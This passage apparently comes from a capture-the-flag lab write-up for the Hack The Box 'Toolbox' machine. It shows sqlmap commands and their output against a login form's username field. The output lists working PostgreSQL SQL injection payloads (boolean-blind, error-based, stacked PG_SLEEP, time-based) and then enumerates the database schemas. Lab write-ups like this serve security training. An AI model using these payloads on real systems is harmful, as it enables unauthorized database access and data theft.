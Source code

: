 ```
    Payload: username=admin' AND 6749=CAST((CHR(113)||CHR(107)||CHR(113)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (6749=6749) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(98)||CHR(113)) AS NUMERIC) AND 'CWcN'='CWcN&password=asdf

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=asdf

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 7037=(SELECT 7037 FROM PG_SLEEP(5)) AND 'rRAi'='rRAi&password=asdf
---
[23:50:24] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
back-end DBMS: PostgreSQL
[23:50:25] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.megalogistic.com'
```

###### `Enumerating Database & Tables`

```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch --dbs
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=admin' AND (SELECT (CASE WHEN (9490=9490) THEN NULL ELSE CAST((CHR(101)||CHR(76)||CHR(105)||CHR(67)) AS NUMERIC) END)) IS NULL AND 'qnWj'='qnWj&password=asdf

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin' AND 6749=CAST((CHR(113)||CHR(107)||CHR(113)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (6749=6749) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(98)||CHR(113)) AS NUMERIC) AND 'CWcN'='CWcN&password=asdf

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=asdf

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 7037=(SELECT 7037 FROM PG_SLEEP(5)) AND 'rRAi'='rRAi&password=asdf
---
[23:51:29] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.3.14
back-end DBMS: PostgreSQL
[23:51:29] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[23:51:29] [INFO] fetching database (schema) names
[23:51:29] [INFO] retrieved: 'public'
[23:51:30] [INFO] retrieved: 'pg_catalog'
[23:51:30] [INFO] retrieved: 'information_schema'
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```
